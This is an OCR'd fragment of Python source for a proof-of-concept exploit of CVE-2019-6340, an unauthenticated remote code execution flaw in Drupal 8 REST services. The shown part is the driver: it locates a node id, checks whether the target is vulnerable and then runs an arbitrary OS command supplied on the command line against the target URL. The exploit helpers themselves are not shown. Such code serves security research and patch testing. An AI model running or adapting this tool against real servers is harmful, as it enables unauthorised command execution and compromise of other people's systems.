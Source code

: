 
    def main(base: str, cmd: str):
        """
            Execute an OS command!
        """

        print('[+] Finding a usable node id...')
        article = find_article(base)
        if not article:
            print('[!] Unable to find a node ID to reference. Check manually?')
            return

        print(f'[+] Using node_id {article}')

        vuln = check(base, article)
        if not vuln:
            print('[!] Target does not appear to be vulnerable.')
            print('[!] It may also simply be a caching issue, so maybe just try again later.')
            return
        print(f'[+] Target appears to be vulnerable!')

        exploit(base, article, cmd)


    if __name__ == '__main__':

        print('CVE-2019-6340 Drupal 8 REST Services Unauthenticated RCE PoC')
        print(' by @leonjza\n')
        print('References:\n'
              ' https://www.drupal.org/sa-core-2019-003\n'
              ' https://www.ambionics.io/blog/drupal8-rce\n')
        print('[warning] Caching heavily affects reliability of this exploit.\n'
              'Nodes are used as they are discovered, but once they are done,\n'
              'you will have to wait for cache expiry.\n')

        if len(sys.argv) <= 2:
            print(f'Usage: {sys.argv[0]} <target base URL> <command>')
            print(f'    Example: {sys.argv[0]} http://127.0.0.1/ id')

        target = sys.argv[1]
        command = sys.argv[2]
        if not uri_valid(target):
            print(f'Target {target} is not a valid URL')
            sys.exit(1)

        print(f'Targeting {target}...')
        main(target, command)
